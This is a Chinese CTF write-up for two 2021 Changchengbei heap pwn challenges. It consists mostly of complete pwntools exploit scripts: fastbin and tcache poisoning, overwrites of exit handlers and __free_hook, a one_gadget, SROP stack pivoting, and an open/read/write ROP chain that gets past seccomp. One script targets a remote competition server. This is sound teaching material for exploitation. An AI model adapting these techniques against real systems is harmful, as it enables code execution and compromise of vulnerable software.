 ```yaml
---
title: 长城杯 2021 Pwn
categories:
- CTF/Pwn
tags: 
---
```


> 许久未见我这水平能做的堆了...

## K1ng_in_h3Ap_I

> uaf直接写fastbin的fd，没有简单的leak，rtld_global上面找了一个0x7f，不断的往下写，要写4次，复用3848的exit的函数指针高字节，写底3字节到one_gadget。

- 附件：[K1ng_in_h3Ap_I.zip](https://xuanxuanblingbling.github.io/assets/attachment/ccb/K1ng_in_h3Ap_I.zip)

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./pwn")
libc   = ELF("./libc.so")
#io = process(myelf.path,env={"LD_PRELOAD" : libc.path})
#io = process(myelf.path)
io = remote("47.104.175.110",20066)

sla     = lambda delim,data :  io.sendlineafter(delim,data)
add     = lambda idx,size   :  (sla(">>","1"),sla(":",str(idx)),sla(":",str(size)))
free    = lambda idx        :  (sla(">>","2"),sla(":",str(idx)))
edit    = lambda idx,data   :  (sla(">>","3"),sla(":",str(idx)),sla(":",str(data)))
leak    = lambda            :  (sla(">>","666"))

leak()
io.recvline()
libc.address = int(io.recvline(),16) - libc.symbols['printf']
log.success(hex(libc.address))

def aaw_on_libc(pad1,pad2,addr,data):
    add(5,pad1)
    add(0,0x60)
    add(1,0x60)
    add(2,240)
    add(3,0x60)
    free(2)
    add(4,0x60)

    free(0)
    free(1)
    free(0)

    edit(0,pad2)
    edit(4,addr)

    add(7,0x60)
    add(7,0x60)
    add(7,0x60)
    edit(7,data)
    add(8,0x80)

one_gadget  = libc.address + 0xf1247
rtld_global = libc.address + 0x5f0040

exit_1_addr = rtld_global  + 3493
exit_2_addr = rtld_global  + 3596
exit_3_addr = rtld_global  + 3699
exit_4_addr = rtld_global  + 3802

aaw_on_libc(0x80,"\x70",p32(exit_1_addr)[:3],'\x00'*0x5f+'\x7f')
aaw_on_libc(0xb0,"\x80",p32(exit_2_addr)[:3],'\x00'*0x5f+'\x7f')
aaw_on_libc(0xb0,"\x90",p32(exit_3_addr)[:3],'\x00'*0x5f+'\x7f')
aaw_on_libc(0xb0,"\xa0",p32(exit_4_addr)[:3],"\x00"*30+p32(one_gadget)[:3])

free(100)
io.interactive()
```

## K1ng_in_h3Ap_II

> 任意edit任意show，禁了execve，SROP作栈迁移，ORW

- 附件：[K1ng_in_h3Ap_II.zip](https://xuanxuanblingbling.github.io/assets/attachment/ccb/K1ng_in_h3Ap_II.zip)

- [C 沙盒逃逸](https://ctf-wiki.org/pwn/sandbox/seccomp/c-sandbox-escape/?h=setcontext#_2)
- [setcontext 函数exploit](http://blog.eonew.cn/archives/993)

```python
from pwn import *
context(os='linux', arch='amd64',log_level='debug')

myelf = ELF('./pwn')
libc = ELF('./libc.so')
io = process(myelf.path,env={"LD_PRELOAD" : libc.path})

sla     = lambda delim,data :  io.sendlineafter(delim,data)
add     = lambda idx,size   :  (sla(">>","1"),sla(":",str(idx)),sla(":",str(size)))
free    = lambda idx        :  (sla(">>","2"),sla(":",str(idx)))
edit    = lambda idx,data   :  (sla(">>","3"),sla(":",str(idx)),sla(":",str(data)))
show    = lambda idx        :  (sla(">>","4"),sla(":",str(idx)))
uu64    = lambda data       :  u64(data.ljust(8, b'\0'))


# leak heap
add(0,0x60)
show(0)
io.recvuntil(b'\n')
heap = uu64(io.recv(6)) - 0xb20
log.success(hex(heap))

# leak libc
add(1,0x50)
free(1)
edit(1, p64(heap+0x2a0))
add(1, 0x50)
add(1, 0x50)
show(1)
io.recv()
libc.address = uu64(io.recv(6)) + 0x1620
log.success(hex(libc.address))

def aaw(addr,data,idx,size):
    add(idx,size)
    free(idx)
    edit(idx,p64(addr))
    add(idx,size)
    add(idx,size)
    edit(idx,data)

frame = SigreturnFrame()
frame.rdi = 0
frame.rsi = heap+0x500
frame.rdx = 0x1000
frame.rip = libc.sym['read']
frame.rsp = heap+0x500

aaw(heap+0x200,bytes(frame)[:0x60],2,0x60)
aaw(heap+0x260,bytes(frame)[0x60:0xc0],2,0x60)
aaw(heap+0x2c0,bytes(frame)[0xc0:],2,0x40)

aaw(heap+0x200,"",3,0x30)
aaw(libc.symbols["__free_hook"],p64(libc.sym['setcontext'] + 53),2,0x20)
free(3)

r = ROP(libc, base=heap+0x500)
r.call('open',  ['./flag', 0, 0])
r.call('read',  [3, heap+0x900, 0x100])
r.call('write', [1, heap+0x900, 0x100])

io.sendline(flat(r.build()))
io.interactive()
```